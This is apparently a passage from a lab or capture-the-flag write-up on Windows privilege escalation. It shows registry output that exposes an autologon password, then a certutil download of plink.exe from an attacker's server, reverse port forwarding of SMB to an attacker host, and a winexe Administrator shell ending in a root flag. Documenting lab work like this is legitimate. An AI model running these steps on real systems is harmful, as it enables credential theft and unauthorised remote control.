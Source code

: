```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\XWizards\Components\{C100BED7-D33A-4A4B-BF23-BBEF4663D017}
    (Default)    REG_SZ    WCN Password - PIN

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\XWizards\Components\{C100BEEB-D33A-4A4B-BF23-BBEF4663D017}\Children\{C100BED7-D33A-4A4B-BF23-BBEF4663D017}
    (Default)    REG_SZ    WCN Password PIN

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultPassword    REG_SZ    Welcome1!

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal Server\DefaultUserConfiguration
    Password    REG_SZ    

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal Server\WinStations\EH-Tcp
    Password    REG_SZ    

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\services\RemoteAccess\Policy\Pipeline\23
    (Default)    REG_SZ    IAS.ChangePassword

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Control\Terminal Server\DefaultUserConfiguration
    Password    REG_SZ    

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Control\Terminal Server\WinStations\EH-Tcp
    Password    REG_SZ    

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\services\RemoteAccess\Policy\Pipeline\23
    (Default)    REG_SZ    IAS.ChangePassword

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\DefaultUserConfiguration
    Password    REG_SZ    

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\EH-Tcp
    Password    REG_SZ    

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\RemoteAccess\Policy\Pipeline\23
    (Default)    REG_SZ    IAS.ChangePassword

End of search: 49 match(es) found.

```

### There are more sockets available from the localhost than when a scan was performed from remote host.
![[fc32e7e040fc46589df7cd81c5b1b3f8.png]]

### Upload plink.exe for port forwarding.
1. Host plink.exe (x86) with python http.server
2. download plink.exe to target with `certutil -urlcache -f http://<pythonServer>/plink.exe plink.exe`
3. Set up Remote port forwarding `plink.exe -l <attackerSSHUser> -pw <attackerSSHPass> -R 445:127.0.0.1:445 -P 2223 <attackerIP>`
	1. In this case I had to add -P 2223 and host my ssh server on 2223 as it wasn't working on 22.
4. Use winexe to start a cmd.exe session as Administrator `winexe -U Administrator%Welsome1! //127.0.0.1 "cmd.exe"`
### We now have an admin shell
![[5aa72bd5f2684f85b8dd4d96788fec40.png]]

**root**: `9243728e195ae3288bec1444287a40d7`